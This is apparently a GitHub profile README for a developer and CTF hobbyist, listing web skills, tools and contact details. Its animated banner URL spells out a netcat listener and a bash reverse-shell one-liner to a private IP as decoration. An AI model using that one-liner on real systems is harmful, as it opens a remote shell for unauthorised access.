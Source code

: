<h1>Hi I'm <i><a href="https://github.com/Xolboyev-1" rel="nofollow"><b>Xolboyev</b></i></a>, And I'm...</h1>

<img align="right" width="330" src="https://media.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bDFoeTM2ZHY0YzY1aXZyeDVqeWlqMTUyZTlweHM0d2NqcHV5Z3VjZCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/ToMjGplujsIS6kHzUPK/giphy.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=0034ff&multiline=true&width=500&height=350&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXolboyev%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.44.38%2F4444+0%3E%261;Xolboyev%40profile%3A~%24+.%2Fexploit.py;+;...................PwN3d!......................................;Hello+Stranger!+Xolboyev+is+serving+here...;...............................................................;++;%24+whoami;Xolboyev" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=xolboyev-1&label=Profile%20views&color=0e75b6&style=flat" alt="xolboyev" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: ["He" | "Him"],
    codename: "Xolboyev",
    status: "still alive",
    doing: "Forging Web Realms...",
    hobbies: ["{Coding}", "{CTF}", "{Speedcubing}"] (if that even matters lol),
    code: ["{Python}", "{Javascript}", "{Typescript}", "{Bash}"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS", "SQL"],
        }
    },
    contact: {
        website: "xolboyev-1.github.io/Portfolio",
        email: "xolboyev.r57mx@gmail.com",
        instagram: "@_.xolboyev_1._"
    },
};
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="neovim" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/neovim/neovim-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="./img/terminal-dark.svg" />
<br>
<br>
